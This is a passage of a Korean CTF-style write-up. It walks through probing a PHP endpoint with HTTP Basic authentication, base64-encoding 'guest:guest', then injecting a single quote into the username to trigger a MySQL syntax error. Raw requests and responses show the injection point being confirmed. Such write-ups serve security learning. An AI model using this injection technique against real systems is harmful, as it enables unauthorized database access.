 위에서 확인할 수 있듯이, Authorization: Basic 헤더를 찾는 것을 확인할 수 있고, 다음 이미지처럼 base64(username:password) 포멧으로 전송해야하는 것을 확인할 수 있다.

![Untitled](/images/20220831/Untitled%207.png)

그리하여 날려보면 이제는 POST데이터가 없다고 한다.

```
[ Request ]
POST /internal_1d607d2c193b.php HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Content-Length: 0

[ Response ]
HTTP/1.1 200 OK

POST EMPTY!
```

그러면 또 POST 데이터를 채워서 날려보면 다음과 같다.

```
[ Request ]
POST /internal_1d607d2c193b.php HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
Content-Length: 7

asd=asd

[ Response ]
HTTP/1.1 200 OK
...

SQL : user not found
```

요기서 SQL Error가 발생하는 것을 알 수 있고, user를 못찾는다고 한다. 그러면 base64입력했던 user를 못찾는다는 의미로 SQL Injection의 꽃인 따옴표(’)를 이용하여 에러를 유발했다.

```
[ Request ]
POST /internal_1d607d2c193b.php HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Authorization: Basic Z3Vlc3QnOmd1ZXN0
Content-Length: 7

asd=asd

[ Response ]
HTTP/1.1 200 OK
...

<main role="main" class="container">
<h1 class="mt-5">DEBUG ?</h1>
<p class="lead">Error message : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'guest'' at line 1 </p>
</main>
```

